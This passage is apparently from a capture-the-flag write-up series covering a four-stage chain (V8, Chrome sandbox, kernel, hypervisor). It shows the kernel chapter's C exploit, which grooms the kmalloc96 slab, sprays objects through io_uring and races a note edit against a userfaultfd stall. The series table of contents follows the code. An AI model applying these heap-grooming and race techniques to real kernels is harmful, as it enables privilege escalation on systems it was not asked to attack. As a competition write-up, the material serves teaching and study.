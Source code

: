 ```c 
    /* Free any remaining notes from a previous attempt. */
    for (size_t i = 0; i < 0x10; i++) {
        struct ioctl_arg arg = { .idx = i};
        ioctl(note_fd, IO_DEL, &arg);
    }


    userfaultfd_init();

    uint8_t *mem = mmap(NULL, 0x3000, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);
    if (mem == MAP_FAILED)
    {
        fatal("mmap fault memory");
    }

    uring_spray_fd = uring_create(0x80, 0x100);
    kmalloc96_cc = cc_init(OBJS_PER_SLAB, CPU_PARTIAL, cc_alloc_kmalloc96, cc_free_kmalloc96);

    userfaultfd_register(mem + 0x1000, 0x2000);

    /* allocate a bunch of kmalloc96 objects, so the next one we allocate will fall into our "victim page" */
    cc_next(kmalloc96_cc);
    cc_next(kmalloc96_cc);
    note_add(mem, 96);

    /* also fill up the victim page */
    cc_next(kmalloc96_cc);

    pthread_create(&edit_thread, NULL, thread_note_edit, mem + 0x1000);
    usleep(20000);
    note_edit(0, mem + 0x2000);
    puts("done");
    sleep(1000000);
}
```

## Table of Contents

- [Prologue](./fourchain-prologue): Introduction
- [Chapter 1: Hole](./fourchain-hole): Using the "hole" to pwn the V8 heap and some delicious Swiss cheese.
- [Chapter 2: Sandbox](./fourchain-sandbox): Pwning the Chrome Sandbox using `Sandbox`.
- **[Chapter 3: Kernel](./fourchain-kernel) (You are here)**
- [Chapter 4: Hypervisor](./fourchain-hv): Lord of the MMIO: A Journey to IEM
- [Chapter 5: One for All](./fourchain-fullchain): Uncheesing a Challenge and GUI Troubles
- [Epilogue](./fourchain-epilogue): Closing thoughts
